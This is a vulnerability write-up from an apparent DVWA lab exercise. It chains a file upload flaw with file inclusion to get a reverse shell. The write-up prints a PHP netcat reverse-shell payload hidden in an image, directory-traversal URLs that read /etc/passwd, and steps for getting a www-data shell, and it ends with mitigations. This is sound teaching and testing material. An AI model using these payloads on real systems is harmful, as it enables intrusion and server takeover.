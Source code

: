 # Malicious file upload vulnerability and file inclusion leads to reverse shell

**Summary:**

Malicious file upload vulnerability with directory traversal to start a reverse shell.

**Description:**

- Malicious file uploads occur when files are uploaded to the filesystem by the user and the name, type, content and size of the file are not sufficiently validated. This leads to dangerous files being uploaded to the server.
- PHP code can be uploaded via file upload with the use of exiftool or burp suite. Then the user can use a file inclusion / directory traversal to run the php script to get access to a reverse shell which they can use to escalate their privileges.

Affected URLs and affected objects: 
- http://localhost/DVWA/vulnerabilities/upload/ the file upload form upload the payload

    ![Alt text](image.png)

- http://localhost/DVWA/vulnerabilities/fi/?page=include.php the URL to access the payload

    ![Alt text](image-1.png)

**Severity:**

P1: Critical 

Server-Side Injection > File Inclusion

Server Security Misconfiguration > Unsafe File Upload

**Steps to Reproduce:**

Setup: Set Security Level to high (after logging in).

![Alt text](image-14.png)

1. Find a jpg and run the command in terminal: 
`exiftool -Comment="<?php echo system('nc -e /bin/sh 127.0.0.1 4444') ?>" image.jpg`

![Alt text](image-2.png)

2. Rename the image from image.jpg to image.php.jpg

![Alt text](image-3.png)

3. Upload the image.php.jpg file and you will get the file path in the message:
../../hackable/uploads/image.php.jpg successfully uploaded!

![Alt text](image-5.png)

4. Start a netcat listener with the command:
nc -lvnp 4444

![Alt text](image-6.png)

5. Visit the path at ../../hackable/uploads/image.php.jpg and copy down it's url:
`http://localhost/DVWA/hackable/uploads/image.php.jpg`

![Alt text](image-8.png)

6. Go to the File Inclusion page 

![Alt text](image-7.png)

6. Test for file inclusion vulnerability in the url:
`http://localhost/DVWA/vulnerabilities/fi/?page=file1.php||page=../../../../../../../../etc/passwd`

![Alt text](image-9.png)

7. Make sure your netcat listener is running in the terminal (step 4). Now change url for the file inclusion vulnerability to view the image.php.jpg file in the url:

`http://localhost/DVWA/vulnerabilities/fi/?page=file1.php||page=../../../../hackable/uploads/image.php.jpg`

![Alt text](image-10.png)

8. Look back at your netcat listener and type id and you will find you have access to a shell with the www-data user and you can then try to gain escalated privileges with that user.

![Alt text](image-12.png)

![Alt text](image-13.png)

Note: the website will be frozen until you exit the shell in your terminal.

Other Method: Burp Suite Steps

1. Find an image file. 

2. When uploading the file, go to Burp Suite intercept and at the end of the image data add the php code: 
`<?php echo system('nc -e /bin/sh 127.0.0.1 4444') ?>`

![Alt text](image-17.png)

3. Then forward the upload request. 

Then follow the steps from step 5 but make sure you visit the file you uploaded even if it doesn't contain .php. As long as the php code is uploaded in the data when the file is called with the file inclusion vulnerability it will run in the html code. Make sure to have netcat listener running to get a reverse shell.

**Impact**

You can gain access to a reverse shell which can lead to command execution on the server and try to escalate your privileges.

This happens because when the file is called with the file inclusion vulnerability, the web picks up that it's php code and it runs with the html elements.

**Recommended Mitigations**

Mitigation 1

Files should be scanned for malware and php code so they can be flagged for deletion. 

I found a PHP Antimalware Scanner which claims it removes dangerous functions, exploits and signatures. The dangerous functions include `system` and `shell_exec`.

Explanation link: https://marcocesarato.github.io/PHP-Antimalware-Scanner/#:~:text=PHP%20Antimalware%20Scanner%20is%20a,seem%20to%20contain%20malicious%20code.

GitHub: https://github.com/marcocesarato/PHP-Antimalware-Scanner 

Mitigation 2

Make sure that no special characters are not allowed in the file inclusion path. For example, '|' should not have been accepted, and any ../ even if they are encoded, they should not be allowed. 

Make an if statement with the filenames that you expect the user to input. You can go through a list of predetermined values and if the user input matches the filename then the resource can be used. Otherwise, all other requests are dropped. Users should only be allowed to view what they are expected to view.

Mitigation 3

For the file upload
- Ensure Upload Files Cannot Be Executed
- Rename Files on Upload
- Validate File Formats and Extensions
- Validate the Content-Type Header
- Use a Virus Scanner

For the file inclusion
- You can hard code the files that are only allowed to be accessed by the user. Everything else is not permitted. You could make a list of valid inputs and if the user’s input doesn’t match any of the values in the list they won’t be permitted access.